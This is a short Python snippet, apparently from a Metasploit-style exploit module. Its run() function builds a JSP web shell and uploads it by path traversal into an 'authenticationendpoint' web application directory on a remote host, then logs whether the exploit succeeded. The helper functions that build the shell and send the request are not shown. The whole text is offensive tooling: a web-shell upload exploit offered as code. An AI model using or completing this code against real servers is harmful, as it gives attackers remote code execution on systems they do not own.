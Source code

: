 ```python


    def run(args):
        try:
            # dependency check
            if dependencies_missing:
                module.log('Module dependency (requests) is missing, cannot continue', level='error')
                return

            base_url = find_base_url(args)
            shell = make_shell()
            files = {f"../../../../repository/deployment/server/webapps/authenticationendpoint/abc.jsp": shell}
            url = "http://" + args['RHOST'] + ":" + args['RPORT']

            module.log('File: abc.jsp', level='good')

            if exploit(url,files,args) :
                module.log('Exploit completed', level='good')    
            else:
                module.log('Exploit failed',level='error')

        except Exception as e:
            module.log(str(e), level='error')


    if __name__ == '__main__':
        module.run(metadata, run)
```